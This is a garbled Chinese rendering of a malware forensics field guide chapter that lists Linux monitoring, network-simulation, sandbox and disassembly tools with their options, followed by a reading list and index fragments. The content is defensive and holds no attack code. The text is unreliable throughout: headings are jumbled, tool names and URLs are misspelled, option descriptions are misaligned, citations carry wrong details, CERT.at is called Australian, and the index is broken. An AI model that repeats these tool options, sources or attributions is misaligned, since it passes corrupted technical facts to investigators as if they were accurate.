# 网络轨迹：连接

# 章节 | 6 恶意软件样本分析

| 网络轨迹：网络印象与痕迹证据 |

## 进程活动

## 第 6 章恶意软件样本分析

### 进程活动

### 系统调用

## 数字印象与痕迹证据

#### 物理内存痕迹

#### URL/网页历史

#### 文件系统活动

## Linux 系统恶意软件取证指南

# 第6章 恶意软件样本分析

# 文件系统活动：请求

# Note：

# /proc 活动：条目创建、修改、删除

# Note：

# 恶意软件能力

# 病毒学

# 恶意软件分类

# 第6章 恶意软件样本分析

## 恶意软件取证工具箱

动态与静态分析工具

## 环境基线

## 主机完整性监控

| 名称: 高级入侵检测环境 (AIDE) |
| 页码参考: 414 |
| 作者/发布者: Rami Lehti, Pablo Virolined (原始开发者); Richard van den Berg (维护者), Hannes von Haigw (维护者) |
| 获取途径: Linux 发行版原生。 |
| 描述: 基于文件完整性的入侵检测系统 |
| 有用选项: |

| 选项 | 功能 |
| --- | --- |
| --init | 初始化数据库 |
| -C | 检查数据库 |
| --compare | 比较两个数据库 |
| -D | 测试配置文件 |

| 名称: SAMHAIN |
| 页码参考: 414 |
| 作者/发布者: Samhain Labs |
| 获取途径: `http://la-samhain.de/samhain/` |
| 描述: 一个灵活且强大的开源基于主机的入侵检测系统 (HIDS)，提供文件完整性检查、日志文件监控、rootkit 检测、端口监控、异常执行文件和隐藏进程检测。 |
| 有用选项: |

| 选项 | 功能 |
| --- | --- |
| samhain -t init | 初始化数据库 |
| samhain -t update | 更新数据库 |
| samhain -t check | 检查系统完整性 |
| samhain -D -t check | 再次检查系统完整性，以确认文件、哈希和数据库是否匹配 |

## Linux 系统恶意软件取证指南

## 安装监控

**名称:** Checkinstall

**页码参考:** 415

**作者/发布者:** Felipe Eduardo Durán
**获取途径:** `http://checkinstall.com/checkinstall/`
**描述:** 基于 install 的命令行监控工具。

**有用选项:**

| 选项 | 功能 |
| --- | --- |
| type=slackware | 选择系统 |
| --showinstall=yes | 交互式安装 |

## 互联网服务套件 (iNetSIM)

**页码参考:** 443

**作者/发布者:** Thomas Gutenberg
**获取途径:** `http://www.netsim.com/`
**描述:** 对于 Linux，iNetSIM 是一个用于在实验室环境中模拟网络行为的软件套件。专门设计用于分析未知服务，iNetSIM 提供了一个通用平台。所示，一旦 iNetSIM 启动，模拟的服务将与本地节点（右侧）进行交互。

```bash
```


`malwarelab@malwarelab:~ netstat -an`

Active connections

Proto Recv-Q Send-Q Local Address Foreign Address State

tcp 0 0 0.0.0.0:0 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:21 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:13 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:367 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:632 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:79 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:137 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:37 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:25 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:80 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:53 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:443 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:161 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:102 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:105 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:119 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:123 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:154 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:117 0.0.0.0:* LISTEN

tcp 0 0 127.0.0.1:153 0.0.0.0:* LISTEN

tcp 0 0 0.0.0.0:0 0.0.0.0:* 

tcp 0 0 0.0.0.0:0 

tcp 0 0 127.0.0.1:128 0.0.0.0:* LISTEN

(PID 3564)

## fakedns

**页码参考:** 443

**作者/发布者:** Francisco Santos
**获取途径:** http://code.activate.com/recipes/491264-mini-fake-dns-server/

**描述:** 一个 Python 脚本，创建一个轻量级伪服务器将 DNS 查询重定向到恶意软件环境中的目标系统，如下所示：

```
malwarelab@malwarelab:~ python fakedns

pyminifakeDNS: dom query, 60 IN A 192.168.1.1
```

## 恶意软件样本分析

## 活跃系统和网络监控

## 进程监控

| 名称: ps |
| --- |
| 页码参考: 447 |
| 作者/发布者: Branko Lankester et al. |
| 获取途径: Linux 系统原生 |
| 描述: 显示活动进程的信息 |
| 有用选项: |
| 选项 | 功能 |
| --- | --- |
| -A | 所有进程，输出包含 PID, TTY, Time 和进程名称 |
| -a | 显示除段组和未关联终端 (tty) 外的所有进程 |
| -c | 显示真实的命令名 |
| e | 同 --A 选项；显示进程；输出包含 PID, TTY, Time 和进程名称 |
| -f | "Forest" 显示 ASCII 艺术树级结构 |
| -H | 显示层级结构 |
| -u | 显示用户 ID |

| 名称: pstree |
| --- |
| 页码参考: 448 |
| 作者/发布者: Werner Almesberger and Craig Small |
| 获取途径: 大多数 Linux 发行版原生 |
| 描述: 显示运行进程的文本层级结构（父进程/祖先进程和子进程）。 |
| 有用选项: |
| 选项 | 功能 |
| --- | --- |
| -a | 显示命令行参数 |
| -A | 使用 ASCII 字符画树 |
| -h | 高亮当前进程及其祖先 |
| -H | 高亮指定进程 |
| -l | 显示长行 |
| -n | 按祖先 PID 而非名称对进程排序。 |
| -p | 显示 PID |
| -u | 显示 uid 转换

| 名称: pslist |
| --- |
| 页码参考: 447 |
| 作者/发布者: Peter Penchev |
| 获取途径: http://devcl.ringlet.net/sysutils/pslist/; https://launchpad.ubuntu/i386/pslist/1.3-1 |
| 描述: 用于收集进程详情的命令行工具，包括进程 ID (PID)、命令名和所有进程的 PID。可以通过名称或 PID 指定目标进程。 |
| 有用选项: |
| 选项 | 功能 |
| --- | --- |
| 无选项 | 显示所有进程及相应的 PID |
| pslist <pid> | 显示与目标 PID 关联的进程名 |

# Linux 系统恶意软件取证野外指南

名称：ips (智能进程状态)

页面引用：447

作者/分发：Tobias I. Bell

获取地址：http://freecode.com/projects/db-ips
描述：一个显示活动进程状态的命令行工具。虽然 ips 显示的数据与 ps 类似，但 ips 对输出、列和排序提供了更细粒度的控制。同样，与 `top` 命令一样，ips 的输出可以持续刷新。

## 名称：Process Dumper（进程内存转储器）

页面引用：450

作者/分发：Tobias Klein

获取地址：http://www.trapkit.de/research/forensic/pd_pd_v1.1_linux.bz2：分析工具 Memory Parser 可以在 http://www.trapkit.de/research/forensic/mmp/index.html 找到。
描述：Process Dumper 1.1 是免费的闭源软件，曾与 Tobias Klein 开发的分析工具 Memory Parser 配合使用。要使用 Process Dumper，请为目标文件指定 PID，并为新的转储文件提供样本，如下图所示。

```
./pd_vl1_lnx -v 6194 - 6194.dump

version 1.1 tk 2006, www.trapkit.de

Write: mem-000.dump

Write: mem-001.dump

Write: mem-002.dump

Write: mem-003.dump

Write: mem-004.dump

Write: mem-005.dump

Dump complete.
```

使用 Process Dumper 捕储进程后，将其加载到 Memory Parser 中分析内容。Memory Parser（在编写时）仅适用于 Windows 系统，并且需要 .NET Framework 2.0 版本。在成功加载转储文件并点击“Parse Process Dump”按钮处理文件后，Memory Parser 界面为数字调查人员提供上下窗格映射，下窗格提供六个标签页来探索转储内容，如图所示：


## 文件系统监控

| 名称：lsof (列打开的文件) |
| 页面引用：420-421, 453-454 |
| 作者/分发：Victor A. Abell |
| 获取地址：Linux 发行版内置；http://lsof.itp.purdue.edu/pub/tools/unix/lsof/ |
| 描述：显示打开的文件和套接字的命令行实用。 |

| 选项 | 功能 |
| :--- | :--- |
| -v | 详细模式 |
| -o | 显示文件偏移 |
| -n | 不显示主机名 |
| -p | 不显示端口名 |
| -l | 显示 UID 号 |
| -r | 每15秒重复/刷新 |
| -i | 显示网络套接字 |

| 名称：fuser |
| 页面引用：421 |
| 作者/分发：Werner Almesberger; Craig Small |
| 获取地址：大多数 Linux 发行版内置 |
| 描述：显示使用文件或套接字的进程 |

| 选项 | 功能 |
| :--- | :--- |
| -u | -在每个 PID 后附加进程所有者的用户名。例如，查询与可疑文件 libnss dns-2.12.1.so 关联的用户和 PID，使用：
```
$ fuser -u /lib/libnss_dns-2.12.1.so

/lib/libnss dns-2.12.1.so: 5365m(victim)
```
例如，关联与可疑 UDP 端口 52475 的 PID：
```
$ fuser -u 52475/udp
``` |
| -n | “命名空间”变量。支持命名空间（目标文件名，默认值）、udp（本地 UDP 端口）和 tcp（本地 TCP 端口）。例如，查询与可疑 TCP 端口 3329 的 PID 和用户，使用：
```
fuser -niv tcp 3329
``` |
| -v | 详细模式 |

## Linux 系统恶意软件取证野外指南

| 名称：notify |
| 页面引用：421 |
| 作者/分发：Rohan McGovern |
| 获取地址：作为 inotify-tools 的部分内置于大多数 Linux 发行版；http://inotify-tools.sourceforge.net |
| 描述：命令行文件和目录监控工具。inotify 为调查人员提供了一种简单有效的方法来监控目标文件，并收集有关文件访问、修改、创建和其他数据的有效信息，如下图所示 |

```
malwarelab@malwarelab:~inotifywatch /var/log/

Establishing watches...

Enlist modified watches, now collecting statistics.


| 总访问数 | 关闭写入 | 关闭且未写入 | 创建数 | 文件名 |
| :--- | :--- | :--- | :--- | :--- |
| 141 | 22 | 6 | 78 | 32 1 `/var/log/` |

| 名称：文件更改监控器 (FAM) |
| 页面引用：421 |
| 作者/分发：SGI |
| 获取地址：http://oss.sgi.com/projects/fam/; http://oss.sgi.com/projects/fam/download.html |
| 描述：文件和目录监控工具，可显示文件的创建、修改和执行情况。 |

| 名称：Gamin |
| 页面引用：421 |
| 作者/分发：Daniel Veillard |
| 获取地址：https://people.org/~gamin/ |
| 描述：FAM 的子集。 |

## 网络监控

| 名称：tcpdump |
| 页面引用：426 |
| 作者/分发：Tcpdump Team |
| 获取地址：http://tcpdump.org；内置 |
| 描述：强大灵活的命令行包分析器。 |

| 选项 | 功能 |
| :--- | :--- |
| `-A` | 显示捕获的包 |
| `-i` | 目标接口 |
| `-XX` | 以 ASCII 显示捕获的包 |
| `-w` | 将捕获的包写入文件 |
| `-f` | 跟踪创建的进程 |
| `-v` | 详细模式 |
| `-vv` | 非常详细模式 |
| `-n` | 不解析主机 |

## 系统调用与取证

| 名称：jpcap |
| 页面引用：427 |
| 作者/分发：Patrick Charles |
| 获取地址：http://sourceforge.net/projects/jpcap/ |
| 描述：基于 Java 的网络捕获工具。 |

## Network Miner

| 名称：Network Miner |
| 页面引用：484 |
| 作者/分发：Netsec |
| 获取地址：http://www.netsec.com |
| 描述：强大的图形化工具，可从网络实例中提取产物，包括 DNS 查询、文件和消息。 |

## 自动化恶意软件分析框架

### 自动化恶意软件分析框架/沙箱

自动化恶意软件分析框架是高效分拣和处理恶意代码样本的有用解决方案，通过自动化行为分析过程来快速获取情报。在过去的几年，许多研究人员开发了自动化恶意软件分析框架，这些框架结合并自动化了许多过程和工具，共同监控并报告目标样本的运行行为。虽然这些许多工具是为安装在 Linux 平台而开发的，但在撰本文时，还没有可以处理 ELF 文件的自动化恶意软件分析框架。然而，在确定相应文件类型、性质和目的之前对样本进行分拣时，这些解决方案可能很有用。

| 名称 | 沙箱分析器 ("Buster") |
| :--- | :--- |
| 作者/发行者 | Buster |
| 获取地址 | http://ba.isoftware.nl/ |
|or | 一个基于 Sandboxie 的灵活可配置的平台，Sandboxie 是一种在主机系统上创建隔离区域（沙箱）以防止对系统进行更改的工具。Buster 监控并分析恶意代码样本的执行轨迹，包括 PE 文件、Microsoft Office 文档等。 |

| 名称 | ZeroWine 和 ZeroWine Tryouts |
| :--- | :--- |
| 作者/发行者 | Josef Koret |
| 获取地址 | http://zerowine.sourceforge.net/ 和 http://zerowine-tryout.sourceforge.net/ |
|or | 由 Josef Koret 开发，ZeroWine 和 ZeroWine Tryouts（原始 ZeroWine 项目的分支）都是构建在 Debian Linux 上的开源行为分析平台。两个系统都为数字调查人员提供了 Web 上传和报告控制台。虽然两个系统都可以动态分析 Windows 可执行文件，但 ZeroWine Tryouts 还可以对 PDF 文件进行静态分析。 |

| 名称 | Minibis |
| :--- | :--- |
| 作者/发行者 | 澳大利亚应急响应团队 (CERT.at) |
| 获取地址 | http://cert.at/downloads/software/minibis_en.html |
|or | 由澳大利亚应急响应团队 (CERT.at) 开发，Minibis 是一个基于 Oracle VirtualBox 虚拟化和第三方代码监控工具脚本的行为分析框架。 |

| 名称 | 可读的恶意软件分析网络 ("TRUMAN") |
| :--- | :--- |
| 作者/发行者 | Joe Stewart |
| 获取地址 | https://www.secureworks.com/cyber-threat-intelligence/tools/truman/ |
|or | 由 SecureWorks 的恶意软件专家 Joe Stewart 开发的原生解决方案。TRUMAN 是一种全新的客户端-服务器模型，带有 Linux 启动镜像，可以在处理每个恶意样本后恢复“受害者”系统。TRUMAN 的核心是一系列模拟服务器（DNS、Web、SMTP、IRC、SQL 等）的脚本，以及一个基于 perl 的解析内存恶意伪迹的工具 `pomdump`。尽管 TRUMAN 不再受到支持，SANS 学院在2009 年仍为该平台发布了增强功能。 |

| 名称 | Cuckoo 沙箱 |
| :--- | :--- |
| 作者/发行者 | Claudio Guarnieri |
| 获取地址 | http://www.cuckoosandbox.org/ |
|or | 一个开源恶意代码行为分析平台，它使用 Cuckoo Host 系统（处理执行和分析的核心组件）、分析访客（用于安全执行恶意软件并报告行为的虚拟机）和包（定义 Windows 在分析目标样本期间应执行的自动化操作的脚本）。 |

## 在线恶意软件沙箱

在线恶意软件沙箱是快速获取可疑程序的行为分析或作为关联调查工具的很有用的分析选项。这些服务（在撰本文时是免费的）与特定厂商的恶意软件提交网站或在线病毒扫描器（如第 5 章讨论的 VirusTotal、Jotti Online Malware Scanner 和 VirScan）不同。与在线恶意软件扫描器不同，在线恶意软件沙箱在模拟的（或“沙箱”）中执行并处理恶意软件，并通常为提交方提供一份详细报告，说明在沙箱系统和网络中捕获的活动。尽管撰本文时还没有可以处理 Linux 文件的在线恶意软件沙箱，但在确定文件类型和目的之前对样本进行分拣时，这些解决方案可能很有用。

# LINUX 系统恶意软件取证领域指南

| 工具名称 | 描述 |
| :--- | :--- |
| NSI 恶意软件分析沙箱 http://www.netctsy.com/malware-tool | 基于 TRUMAN 自动化恶意软件分析框架的沙箱。通过用户提供的邮箱地址提供分析报告链接。 |
| Eureka http://eureka.cyber-ta.org/ | 对 Windows 可移植执行文件进行行为分析和静态分析；提供解包后样本的汇编分析、字符串、控制流探索、API 调用、能力图和 DNS 查询。提供可下载的解包后执行文件样本。 |
| Comodo http://comas.comodo.com/（自动化分析系统） http://valkyrie.comodo.com/("文件判决服务") | 进行当前时效性文件概况，包括文件大小、MD5、SHA1 和 SHA256 哈希值。对 Windows 可移植执行文件进行行为分析；监控并报告进程、文件系统、注册表和网络活动。 |
| BitBlaze http://bitblaze.cs.berkeley.edu/ | 对 Windows 可移植执行文件进行行为分析和静态分析；提供解包后样本的汇编分析、字符串和 API 调用分析。 |
| Malfease https://malfease.oarci.net/ | 进行广泛的文件概况分析，包括文件大小、MD5 和 SHA1 哈希值、识别的文件签名、加壳检测、PE 文件分析、字节频率分析和元数据提取。用户门户。 |
| ViCheck.ca https://www.vicheck.ca/ | 处理 PE 文件、文档文件（PDF, MS Office, CHM）、图像、压缩文件及等。将提交的文件在 ViCheck 恶意软件数据库以及 Virotal.com、ThreatExpert.com 和 Team-Suru 恶意软件哈希数据库中进行查询。对目标样本进行文件概况，包括文件格式识别；文件大小以及 MD5/SHA/SSDE 哈希值。为提交的 PE 文件提供十六进制转（hexdump）。在沙箱中处理目标文件。通过用户提供的邮箱地址提供分析报告链接。工具门户允许用户搜索恶意软件数据库中的 MD5/SHA/SHA256 哈希值；主解码器（Master Decoder）；IP 头部处理以及 IP/域名 Whois 查询。 |

## 第 6 章 恶意软件样本分析

### 嵌入产物提取重温

#### 反汇编器

| 名称 | Objdump |
| :--- | :--- |
| 参考页码 | 472 |
| 作者/分发者 | GNU |
| 获取途径 | 作为 binutils 的一部分内置于大多数 Linux 发行版；http://www.gnu.org/software/binutils/ |
| 描述 | 显示对象文件结构和内容的命令行实用。 |

| 选项 | 功能 |
| :--- | :--- |
| `-a` | 显示归档头/文件格式信息 |
| `-d` | 反汇编。显示关于文件的摘要信息，如文件格式、目标架构、寻址等。 |
| `-f` | 显示调试信息。 |
| `-g` | 仅显示特定区域名称的信息 |
| `-j <name>` | 显示特定目标对象格式的头部信息 |
| `-p` (or `--private-headers`) | 显示目标区域的完整内容 |
| `-s` | 可能时显示源代码和反汇编代码 |
| `-t` | 显示符号表的内容 |

名称: Dissy

参考页码: 472

作者/分发者: Simon Kastrom

获取途径: http://dissy.google.com

描述: `objdump` 反汇编器的 GUI 前端。


## 与恶意软件样本的交互与操控

### 触发事件引导

| 名称 | HTTrack |
| :--- | :--- |
| 参考页码 | 477 |
| 作者/分发者 | Xavier Rochen |
| 获取途径 | http://www.htrack.com |
| 描述 | HTTrack 是一个图形化网站复制工具。拷贝网站用于离线浏览和在本地重建网络内容的宝贵工具，HTTrack 为复制和内容获取提供了细粒度的配置选项。 |


## 数字病毒学

### 上下文分段哈希与相似性指标

| 名称 | SSDeep |
| :--- | :--- |
| 参考页码 | 499-500 |
| 作者/分发者 | Jesse Kornblum |
| 获取途径 | http://ssdeep.forge.net/ |
| 描述 | 一种模糊哈希工具，通过为文件计算一系列随机签名的校验和，允许对内容相似但并非完全相同的文件进行比较。 |

| 选项 | 功能 |
| :--- | :--- |
| `-v` | 详细模式。显示正在处理的文件名 |
| `-p` | 优美匹配模式。类似于 -s 但包含匹配项 |
| `-r` | 递归模式 |
| `-d` | 目录模式，比较目录下的所有文件 |
| `-s` | 静默模式；抑制所有错误 |
| `-b` | 仅使用文件的纯名称；提交所有路径信息 |
| `-l` | 文件名使用相对路径 |
| `-c` | 以 CSV 格式打印输出 |
| `-t` | 仅显示高于给定阈值的匹配项 |
| `-m` | 将文件与文件中已知哈希值进行匹配 |

## 第 6 章 恶意软件样本分析

563

## 精选读物

### 书籍

Eagle, C. (2008). 《IDA Pro Book: The Unofficial Guide to the World's Most Popular Assembler》，San Francisco: No Scratch Press.

Jones, K., Beitlich, R., & Rose, C., (2005). 《Real Digital Forensics: Computer Security and Incident Response》， Addison-Wesley.

Light, M., et al. (2010). 《Malware Analyst's Cookbook and DVD: Techniques for Fighting Malicious Code》，New York: Wiley.

Malin, C., Casey, E., & Aquilina, J. (2008). 《Malware Forensics: Investigating and Analyzing Malicious Code》，Synergy.

Skou, E. & Zelster, L. (2003). 《Malware: Fighting Malicious Code》，Upper Saddle River, NJ: Prentice Hall.2005. 《The Art of Computer Research and Defense》，Mountain View, CA: Symantec Press.

### 论文

Bayer, U., Kirda, E., & Kuegel, C. (2010). 《Improving the Efficiency of Dynamic Malware Analysis》，2010 ACM Symposium on Applied Computing (SAC '10).

Beauamps, P., Gnaedic, I., & Marion, J. (2010). 《Behavior Analysis in Malware Analysis》，International Conference on Runtime Verification (RV '10).

Bilar, D. (2008). 《Statistical Researches: Fingerprinting Malware for Classification》，Black Hat USA 2008.

Brand, M. (2007). 《Forensics Techniques of Malware》.

Hu, X., Chieh, T., & Shin, K. (2009). 《Large-Scale Malware Indexing Using Function-Call Graphs》，16th ACM Conference on Computer and Communication Security (CCS '09).

Islam, R., et al. (2010). 《Classification of Malware Based on String and Function Selection》，Second Cybersecurity and Trustworthy Computing Workshop.

Khang, M., Poosam, P., & Yin, H. (2007). 《Renov: A Hidden Code Extractor for Packed Executables》，WORM '07.

Kinistak, J. & Kastac, O. (2011). 《Malware Classification Based on Graph Clustering》，Journal in Computer Virology, Volume 7, Issue 4, pp 233–245.

Leder, F., Steinbeck, B., & Martini, P. (2009). 《Classification and Detection of Metamorphic Malware using Value Set Analysis》，Fourth Conference on Malicious and Unwanted Software.

Park, Y. (2010). 《Fast Malware Classification by Automated Behavioral Graph Matching》，22nd Annual Security Applications Conference (ACSAC '06).

Sathyanaray, V., Kohli, P., & Brahmahender, B. (2008). 《Signature Generation and Detection of Malware Families》，13th Australian Conference on Information Security and Privacy (ACISP '08).

Yegnesaran, V., et al. (2008). 《Eureka: A Framework for Enabling Static Analysis on Malware》，Technical Report SRI-CSL-08-01, SRI Project 17382.

Zhao, H., et al. (2010). 《Malicious Executable Classification Based on Behavioral Factor Analysis》，2010 International Conference on e-Education, e-Business, e-Management and e-Learning.

## 索引

注：页码带有“f”表示图，“t”表示表。

### A

- 活跃系统和网络监控 GSLOF。*查看 Graphical lsof (GSLOF)* `lsof` 命令，421, 421f
- 打开的文件和接字，420–421
- 网络活动
- EtherApe，427, 428f
- “feed”效应，424–426
- 实时流量，426
- Web 服务器，程序交互，423–424
- Wireshark 捕获选项，426, 427f
- 端口活动
- GUI 工具，429–430, 430
- 信息开销，428
- `netstat -an` 命令，428, 429f
- `netstat -nap` 命令，429, 427f
- 端口号，427
- `/proc/<pid>` 条目，419, 420f
- 实时数据，419
- 系统和动态库调用，430, 431f
- 地址解析协议 (ARP) 缓存，27, 30, 30f
- door rootkit，47–48f
- 《美国恢复与再投资法》(ARRA)，226
- 入侵数据库分析控制台 (ACID)，433b–434b
- Android 内存取证，108b
- 法律授权
- 受保护数据
- 联邦保护。*查看联邦保护*
- 恶意代码进入，224
- 州法律保护，427
- 实时数据
- 计算机入侵者例外，223
- 同意例外，222
- 非内容，223
- 提供者例外，222
- 《窃听法案》(Wiretap Act)，222
- 存储数据
- 内容/非内容信息，220
- 私有提供者，220
- 公共提供者，221

### B

- Barnyard 系统，433b–434b
- 基础分析与安全引擎 (BASE)，433b–434b
- BinDiff 插件接口
- BinDiff 图形界面，504–505, 504f–505f
- IDA Pro，503, 503f

### C

- 伪装机制，447
- Cerebus 工具，433b–434b
- Chaosreader
- 销售报告，487–488, 488f
- 数据包捕获文件，487, 487f
- 独立模式，486
- 《儿童在线隐私保护法》(COPPA)，226–227
- Clam 病毒防护，170, 171f
- 命令行界面 (CLI)，7
- 命令行内存分析
- `linux_kmem_Volatility` 插件，117
- `linux_psx` 插件，117, 118f
- `linux_pslist` 插件，117, 117f
- `linux_psview` Volatility 插件，118

# 566
# 索引

- DepSpec 依赖查看器, 284, 284f
- 数字病毒学
- 可执行文件与可链接格式 (ELF) 文件, 307
- 动态段项 (dynamic section entries)
- 行为分析与分类
- Malheur 工具。参见 Malheur 工具
- Windows PE 恶意软件样本, 508
- CTPH, 499, 500f
- debug_line 段, 332, 332f
- elsh dyn 命令, 325, 326f
- elsh interp 命令, 326, 327f
- 进制编辑标记, 326–327, 328f
- Red Hat 6.x, 331–332
- rodata, 328, 331f
- 数字调查员恶意软件实验室
- 优势, 496
- 函数增长
- BinDiff, 502。另见 BinDiff 插件
- 接口.
- 差异分析, 502
- 段头表, 332, 327f
- "socket" 和 "setckock", 327
- text 段, 327, 328f
- elsh sh 命令, 315, 316f
- 文件分析工具, 317
- 头部(ELF32_hdr), 309, 310f
- e_ident 段, 310, 311f
- elsh, 311, 312f
- e_type 段, 310
- readelf, 311, 319f
- 结构, 309, 310f
- 恶意软件分类, 496, 497–498f
- 进程内存分析, 507b
- 去混淆恶意代码, 505
- MD5 哈希值, 506, 506f
- 网络安全保护机制, 505
- pcat 命令, 506, 509f
- sdeep 命令, 506–507, 506f
- 样本目录与分类, 496
- 和二进制索引
- 嵌入属性, 499
- notes 段项, 324–325, 325f
- Objdump, 335, 336f
- 动态段, 335, 335f
- readelf, 重用与 elfish, 333, 334f
- 对象文件类型, 308
- 程序头头 (ELF32_Phdr), 317–319, 318f–319f
- MAEC, 502b
- YARA 工具。参见 YARA 工具
- 可视化, 507–508, 509f
- readelf, 308, 315, 318f
- 段头表 (ELF32_shdr), 312, 313f
- e_type 段, 312, 313f
- 段, 314, 314f
- shell (elfs), 329

# E

## 嵌入提取
- 深层静态分析, 471
- 反汇编器
- 数字指纹与痕迹取证, 472
- IDA Pro。参见 IDA Pro 反汇编器
- 可执行文件分析, 471
- 嵌入式 ELF 跟踪器 (Iterace), 466b
- 嵌入字符串分析, 208
- 属性标识符, 280
- 文件依赖, 动态/静态链接
- GUI 文件依赖工具, 283–285, 282f
- lld 工具, 281, 282f
- 带有详细输出的 lld, 282, 282f
- 引用页, 282–283
- 共享库名称, 282–283
- Solaris 系统, ELF 二进制分析, 285b
- sysfile 工具, 281
- 功能指示器/文本引用, 279
- GNU GCC 编译器版本, 280, 280f
- 字符串输出, 280, 280f
- 欧盟数据保护条例, 223, 233–234
- 符号信息提取
- binutils strip 工具, 319
- debug, 322, 323f
- n 和 um-elf 工具, 319
- readelf 工具, 319–321, 322f
- stab 参数, 322
- 符号表, 320, 320f
- USL., 308
- 版本控制信息, 322–333, 333–334f
- 版本信息, 324, 324f
- 视图, 308, 309f

## 执行轨迹分析
- 捕获动态库调用的 Itrace 工具, 463–466, 464f–465f
- 环境模拟与调整, 442–443, 443f
- 文件系统活动, 469
- 取证学学科, 441
- GNU 项目调试器 (dbg) 挂载命令, 466, 467f
- info functions 命令, 468, 468f
- info proc 命令, 468, 468f
- ptr () 函数, 466
- 符号引用, 467
- netcat 监听器, 446, 446f
- 网络活动, 441–442
- 网络印象证据, 445
- 网络轨迹重建, 444, 444f
- `/proc/<<pid>` 目录, 452, 453f
- 进程活动
- GUI 工具, 449, 449f
- 进程内容, 446
- 进程内存映射, 450, 451f
- ps 命令, 447
- pstree, 448, 448f
- strings 工具, 450
- 系统使用, top, 447, 447f
- Tom Keis's Dumper, 450
- 进程-非保护关联
- 数字调查员, 452
- lsof 命令, 454, 454f
- netstat –anon 命令, 454, 454f
- 开放网络连接, 453
- 系统调用监控, 455–456, 466b
- watch 命令, 455
- 系统调用
- fortracktracker 脚本, 461, 461f
- 全异常开销, 459
- man 页面, 459
- 审计日志, 462–463, 463f
- 打开并读取 `/etc/host.conf` 和 `/host`, 458
- 打开并读取 `/etc/resolv.conf`, 457, 458f
- 探测 syscall 命令, 461, 462f
- process-syscalls 脚本, 461, 461f
- strace选项, 458–459
- strace 工具, 456–459
- process-syscalls, 461, 461
- SystemTap, 461, 460

# 574
# 索引

## V
- 虚拟专用网络 (VPN), 21
- Visual Dependency Walker, 283, 284f
- VMWorkstation, 438–439, 438–439f
- 易失性数据收集方法:
    - 剪贴板内容, 50, 50f
    - 命令历史, 48–49, 48f
    - 数据收集步骤, 5–6
    - 数据保全, 6–7
    - 设备支持的 RAM 类型, 11b
    - 证据系统, 5
    - 文件列表, 6b
    - 加载模块动画, 47–48, 47f
    - 挂载和共享驱动器, 49, 49f
    - 网络连接与活动。见
- 打开的文件的文件与密度, 44–45, 45f
- 开放端口相关性
    - 活跃连接, 22
    - fuser 命令, 42, 42f, 44, 44f
    - lsof 命令, 43, 43f
    - netstat -anp 命令, 42, 43f
- 物理内存获取:
    - `/dev/mem` 设备, 16
    - 企业安全版 (Enterprise Security Edition), 19b
    - fnem 内核模块, 17, 17f
    - F-Response, 19b
    - LiME 模块, 19, 19f
    - 本地获取。见本地物理内存获取
    - pmad 内核模块, 18–19
    - `/proc/meminfo`, 19
    - 远程访问。见 Helix Pro 3 Image Receiver
- SecondLook 工具, 18, 18f
- `/proc` 目录:
    - 文件列表, 40, 41f
    - "mem", 41–42f
    - `/proc/<pid>` 子目录, 40, 41f
- 进程信息收集:
    - 子进程, 35–36, 35f
    - 命令行参数, 36
    - 可执行程序映射, 33–34, 34f
    - 获取细粒度上下文, 35
    - 调用的库, 36, 37f
    - 恶意软件 vs 合法进程, 31
    - 内存占用, 32–33, 32f–33f
    - 进程名和 PID, 31–32
    - 时间上下文, 32
    - 用户映射, 34
- 进程内存保全:
    - 全内存内容分析, 36–37
    - 掘墓人工具 (grave-robber utility), 39, 39f
    - pcat 命令, 38–39, 38f
    - `/proc/meminfo` 文件，内容文档, 11–12f
    - 运行服务识别, 46, 46f
    - 计划任务, 50
    - script 命令和日期记录, 5, 5f
- 目标系统细节收集:
    - hostname 命令, 20, 21f
    - did 命令, 21, 21f
    - logfile 命令, 21, 21f
    - 网络配置, 21–22
    - 物理标识符, 20
    - 事后法取证流程, 19
    - printenv 和 env 命令, 23, 23f
    - `/proc/cpuinfo` 及参数, 24
    - `/proc/version` 文件, 24, 24f
    - sa 命令, 24, 24f
    - s 工具, 25, 25f
    - 系统日期和时间, 20, 20f
    - 系统运行时间, 22, 22f
    - uname-a 命令, 23, 23f
    - whoami 命令, 21, 21f
    - 系统状态和产物, 39–40
    - 用户登录识别, 26–27, 26f

## W
- Windows 调查系统:
    - 磁盘管理加载项 (Disk Management snap-in), 57
    - f-response 远程命令, 56, 56f
    - FTK Imager, 57, 57f
    - Microsoft iSCSI 服务启动器, 55, 55f
    - 子系统连接, 56, 56f

## Y
- YARA 工具:
    - Capa 模块, 501, 501f
    - 直接扫描, 501, 502f
    - 规则命令, 501
    - 规则标识符, 499
    - 字符串定义, 499
